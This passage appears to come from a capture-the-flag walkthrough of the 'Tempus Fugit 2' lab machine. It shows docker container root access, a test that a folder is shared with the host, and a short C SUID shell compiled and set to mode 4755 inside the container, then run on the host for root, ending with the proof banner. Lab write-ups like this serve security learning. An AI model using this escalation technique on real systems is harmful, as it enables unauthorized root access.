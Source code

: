 ```
ealasaid@TF2:~$ sudo /usr/bin/docker exec -it 1786dd63dedb /bin/bash
root@1786dd63dedb:/var/www/html# whoami
root
```
Now to test the theory that the folders are shared I just create a test file in the docker container
```
root@1786dd63dedb:/var/www/html/wp-content/TFDocuments# ls -la
total 32
drwxr-xr-x 2 root     root     4096 Apr 10 21:12 .
drwxr-xr-x 7 www-data www-data 4096 Apr 10 20:17 ..
-rw-r--r-- 1 root     root       29 Apr 10 00:42 nb.txt
-rw-r--r-- 1 root     root        0 Apr 10 21:12 test
```
Then I go and check the root folder on the system to see if the file is there. Luckily it is.
```
ealasaid@TF2:/root/wp/wp-content/TFDocuments$ ls -la
total 32
drwxr-xr-x 2 root     root     4096 Apr 10 23:12 .
drwxr-xr-x 7 www-data www-data 4096 Apr 10 22:17 ..
-rw-r--r-- 1 root     root       29 Apr 10 02:42 nb.txt
-rw-r--r-- 1 root     root        0 Apr 10 23:12 test
```
Now the easiest way to get a root shell is to just create a SUID binary in the docker container and execute it on the host system. Simple 4 lines of C code will do the trick.
```
int main(void) {
    setgid(0); setuid(0);
    execl("/bin/sh","sh",0);
}
```
Compile it and then give it the proper permissions
```
root@1786dd63dedb:/var/www/html/wp-content/TFDocuments# gcc shell.c -o shell
root@1786dd63dedb:/var/www/html/wp-content/TFDocuments# chmod 4755 shell
```
Now going back to the host system, I execute the binary and get a shell as root.
```
ealasaid@TF2:/root/wp/wp-content/TFDocuments$ ./shell
# whoami
root
```
From here I can run the `proof.sh` script
```
  ____                _                        _    _ 
 / ___|_ __ ___  __ _| |_  __      _____  _ __| | _| |
| |  _| '__/ _ \/ _` | __| \ \ /\ / / _ \| '__| |/ / |
| |_| | | |  __/ (_| | |_   \ V  V / (_) | |  |   <|_|
 \____|_|  \___|\__,_|\__|   \_/\_/ \___/|_|  |_|\_(_)
                                                      
Tempus Fugit 2 pwned...
__________________________________________________________________________

Proof: This is it! ;-)
Path: /root
Date: Fri 10 Apr 2020 11:21:16 PM CEST
Whoami: root
__________________________________________________________________________


October 12, the Discovery.

It was wonderful to find America, but it would have been more wonderful to miss
it.
                -- Mark Twain, "Pudd'nhead Wilson's Calendar"
```